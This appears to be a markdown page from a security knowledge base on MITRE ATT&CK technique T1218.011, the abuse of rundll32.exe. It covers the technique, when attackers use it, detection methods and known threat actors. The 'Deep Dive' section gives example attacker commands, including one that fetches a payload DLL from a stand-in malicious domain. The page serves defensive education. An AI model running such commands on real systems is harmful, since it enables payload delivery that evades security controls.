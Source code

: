 ```yaml
---
description: Rundll32 [T1218.011]
icon: file-code
---
```


# Rundll32 [T1218.011]

## Information

- Name: Rundll32
- ID: T1218.011
- Tactics: [TA0005](../TA0005/TA0005.md)
- Technique: [T1218](./T1218.md)

## Introduction

Rundll32 (T1218.011) is a sub-technique within the MITRE ATT&CK framework categorized under Signed Binary Proxy Execution. Attackers leverage the legitimate Windows executable "rundll32.exe" to execute malicious code or payloads. Rundll32.exe is a standard Windows utility designed to load and execute dynamic link libraries (DLLs), making it an attractive target for adversaries aiming to bypass security defenses and execute arbitrary code while appearing legitimate.

## Deep Dive Into Technique

The Windows utility "rundll32.exe" is designed to execute functions exported from DLL files. Its legitimate purpose is to allow users and applications to invoke specific DLL functions directly from the command line or scripts. Attackers abuse this functionality by crafting malicious DLLs or referencing legitimate DLLs that contain exploitable or unintended functions.

Technical details include:

- Command syntax typically used by attackers:

  ```
  rundll32.exe <DLL Name>,<Function Name> [arguments]
  ```

- Malicious DLLs may contain exported functions specifically crafted for exploitation and payload delivery.
- Attackers may also exploit legitimate system DLLs by invoking functions that can execute arbitrary code or scripts.
- Rundll32 can be used to execute payloads directly from disk, memory, or remote locations, providing attackers with a flexible execution vector.
- Commonly abused legitimate DLLs include:
  - `shell32.dll`
  - `url.dll`
  - `advpack.dll`
  - `ieadvpack.dll`

Real-world procedures include:

- Execution of malicious payloads stored remotely via URL:

  ```
  rundll32.exe url.dll,OpenURL http://malicious-domain.com/payload.dll
  ```

- Execution of DLLs loaded directly from disk:

  ```
  rundll32.exe malicious.dll,EntryPoint
  ```

- Execution of payloads stored in the registry or encoded within scripts.

## When this Technique is Usually Used

Attack scenarios and stages where attackers typically leverage Rundll32 include:

- **Initial Access and Execution:**

  - Delivering initial payloads after successful phishing attacks or drive-by downloads.
  - Executing payloads immediately following exploitation of vulnerabilities.

- **Defense Evasion and Persistence:**

  - Bypassing application allowlisting, endpoint protection, and antivirus software by masquerading as legitimate system activity.
  - Establishing persistence through registry modifications or scheduled tasks invoking rundll32 commands.

- **Privilege Escalation and Lateral Movement:**

  - Executing DLL payloads that exploit system vulnerabilities or misconfigurations to escalate privileges.
  - Facilitating lateral movement by executing payloads remotely on compromised hosts.

- **Command and Control (C2) and Exfiltration:**
  - Executing payloads designed to establish persistent communication channels to attacker-controlled servers.
  - Running DLLs that facilitate data exfiltration or remote access.

## How this Technique is Usually Detected

Effective detection of Rundll32 misuse involves monitoring and analyzing process execution patterns, command-line arguments, and DLL loading behaviors. Detection methods include:

- **Process Monitoring and Analysis:**

  - Monitor the execution of "rundll32.exe" processes, especially those initiated from unusual parent processes, locations, or user contexts.
  - Analyze command-line arguments for suspicious DLL names, functions, or remote URLs.

- **DLL Loading Behavior:**

  - Monitor DLL loads by rundll32.exe, particularly those from temporary directories, user directories, or unusual paths.
  - Track DLLs loaded from remote locations or network shares.

- **Endpoint Detection and Response (EDR) Tools:**

  - Utilize EDR solutions to detect anomalous rundll32.exe behavior, including suspicious command-line parameters and unusual DLL loads.
  - EDR platforms such as Microsoft Defender ATP, CrowdStrike Falcon, Carbon Black, and SentinelOne provide built-in detection rules for suspicious rundll32 activity.

- **Security Information and Event Management (SIEM):**

  - Aggregate and correlate logs from endpoints and network devices to identify anomalous rundll32 executions.
  - Create alerts and rules based on known suspicious rundll32 command-line patterns or DLL execution paths.

- **Indicators of Compromise (IoCs):**
  - Unusual rundll32.exe command-line arguments referencing suspicious DLL files or URLs.
  - DLL files located in temporary directories, user profiles, or unusual system locations.
  - Registry entries or scheduled tasks invoking rundll32.exe with suspicious parameters.

## Why it is Important to Detect This Technique

Detecting the misuse of rundll32.exe is critical due to its potential impact on systems and networks:

- **Stealth and Defense Evasion:**

  - Attackers exploit legitimate system binaries to avoid detection by traditional antivirus and endpoint protection tools.
  - Rundll32 misuse can bypass application allowlisting and evade security controls, increasing the likelihood of successful compromise.

- **Persistence and Long-Term Access:**

  - Misuse of rundll32.exe can enable attackers to establish persistent footholds on compromised systems, making remediation challenging.
  - Persistent malicious DLL execution can lead to prolonged attacker presence and continued exploitation.

- **Privilege Escalation and Lateral Movement:**

  - Malicious DLL payloads executed via rundll32 can facilitate privilege escalation, lateral movement, and deeper network compromise.
  - Early detection prevents attackers from expanding their access and escalating privileges.

- **Data Theft and Exfiltration:**
  - Payloads executed through rundll32.exe can enable attackers to exfiltrate sensitive information, intellectual property, and credentials.
  - Early detection and mitigation reduce the risk of significant data breaches and associated damages.

## Examples

Real-world examples highlighting the misuse of rundll32.exe include:

- **APT29 (Cozy Bear):**

  - Utilized rundll32.exe to execute malicious DLL payloads during the initial compromise and persistence phases.
  - Leveraged rundll32 commands to load DLLs from disk, enabling stealthy execution and evasion of endpoint protection.

- **FIN7 Cybercrime Group:**

  - Employed rundll32.exe to execute malicious payloads downloaded from remote servers as part of targeted attacks against financial institutions and retail organizations.
  - Used rundll32.exe commands referencing URLs to execute DLL payloads directly from remote attacker-controlled servers.

- **Qbot Malware:**

  - Frequently leverages rundll32.exe to execute malicious DLL payloads stored in user directories or temporary folders.
  - Executes payloads via command-line parameters referencing malicious DLL entry points, enabling persistence and data exfiltration.

- **TrickBot Malware:**
  - Utilizes rundll32.exe extensively to execute malicious DLL payloads during initial infection and lateral movement phases.
  - Executes malicious DLLs from unusual locations, such as AppData directories, to evade detection and establish persistence.

These examples illustrate the widespread use of rundll32.exe misuse across diverse threat actors and malware families. Detecting and mitigating this technique is critical for defending against advanced persistent threats (APTs), cybercriminal groups, and malware infections.
